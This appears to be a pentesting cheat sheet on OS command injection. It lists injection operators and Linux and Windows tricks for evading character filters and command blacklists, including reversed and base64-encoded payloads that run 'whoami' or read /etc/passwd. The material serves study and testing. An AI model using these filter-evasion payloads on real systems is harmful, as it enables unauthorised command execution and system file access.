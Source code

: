 # Injections

### Example of most simple web injection

Looks like a dev make this to check network connectivity

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/90723765-34a8-4479-8b75-824671c1e0ed)


We can assume the backend command is something like this

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/88c4ef56-6885-4e74-98f2-f18fb6c4d9b7)

input is not sanitized so we can add `;` and issue more commands.

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/648d60b0-f499-4e42-9e83-09baa1245681)

## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|-|-|-|-|
|Semicolon| `;`|`%3b`|Both|
|New Line| `\n`|`%0a`|Both|
|Background| `&`|`%26`|Both (second output generally shown first)|
|Pipe| `\|`|`%7c`|Both (only second output is shown)|
|AND| `&&`|`%26%26`|Both (only if first succeeds)|
|OR| `\|\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell| ` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell| `$()`|`%24%28%29`|Both (Linux-only)|

---
# Linux

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---
# Windows

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |
